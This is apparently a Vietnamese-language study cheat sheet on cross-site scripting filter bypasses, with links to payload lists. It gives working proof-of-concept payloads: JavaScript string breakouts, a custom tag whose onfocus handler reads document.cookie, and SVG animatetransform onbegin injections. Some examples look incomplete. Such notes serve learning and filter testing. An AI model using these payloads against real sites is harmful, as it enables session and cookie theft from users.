

# XSS

## CheatSheet Xss

- <a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet"> PortSwigger</a>

- <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html">OWASP</a>

- <a href="https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45">Payload 1</a>

- <a href="https://github.com/payloadbox/xss-payload-list">Payload 2</a>

## Các hàm có thể bị bypass

### 1. Replace

Ví dụ:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```
Hàm <b>replace</b> chỉ thay thế chuỗi đầu tiên được tìm thấy nên có thể bypass bằng cách sau:



## Nối chuỗi dẫn đến thay đổi giá trị của biến

```js
var searchTerms = '123';
document.write('');
```
Ứng dụng đã filter các ký tự:
```
Original     filter
   '     =>    \'
   "     =>    &quot;
   <     =>    &lt;
   >     =>    &gt;
``` 
Như vậy không thể chèn trực tiếp các tag vào biến <b>searchTerms</b>
```js
Khi input = ' 
    => var searchTerms = '\''
khi input = \' 123 
    => var searchTerms = '\\' 123'
    => chuôĩ được thoát khỏi biến
Lúc này ta gọi đến trực tiếp các hàm của js trong biến
input = \' - alert(1)     (+, - đều được, tuy nhiên dấu + bị nhầm lẫn là ký tự khoảng trắng trong burpSuite)
    => var searchTerms = '\\' + alert(1)
    => hàm alert(1) được gọi
```
Nếu ngay sau vị trí chèn vẫn còn chuỗi:
```js
var searchTerms = 'inject' + 'something message'

Có thể thay đổi 1 chút payload:
inject = '-alert(1)-'
    => var searchTerms = 'something' + 'inject' -alert(1)- 'something'
    => hàm alert(1) được gọi
```
```
Nếu dấu nháy đơn bị chuyển thành \' có thể encodeHtml(') = &apos;
```
## Bị block toàn bộ tag

Có thể tự custom tag, ví dụ:

```
<xss id=x tabindex=1 onfocus=alert(document.cookie) >#x
urlEncode: %3Cxss%20id%3Dx%20tabindex%3D1%20onfocus%3Dalert(document.cookie)%20%3E#x
```
- Tạo ra 1 tag có tên là <b>xss</b> với <b>id</b> là <b>x</b> 
- Thuộc tính <b>onfocus</b> sẽ gọi đến <b>alert</b> khi được focus 
- <b>tabindex</b> là thuọc tính bắt sự kiện khi người dùng nhấn tab để di chuyển qua các (fragment) phần tử của web. Có giá trị là <b>1</b> chỉ định nghĩa là nó sẽ được tập trung đầu tiên.
- <b>#x</b> tạo ra 1 <b>fragment</b> vd: https://www.example.com/page#section1 

=> Tóm lại khi <b>fragment</b> là <b>#x</b> nó sẽ trỏ đến tag <b>xss</b> có <b>id=x</b> với mức độ ưu tiên cao nhất <b>tabindex=1</b> và thực thi <b>onfocus=alert(document.cookie)</b>

## Bypass qua SVG và AnimateTransform tag 

<b>SVG</b> là tag tạo ra thành phần đồ họa cho web 

<b>AnimateTransform</b> cho phép soát việc di chuyển, xoay, chia tỷ lệ cho hoạt ảnh. 

<b>Payload</b>
```
<svg><animatetransform onbegin=alert()>
```
Hoặc viết đầy đủ:
```
<svg><animatetransform onbegin=alert()></animatetransform></svg>
```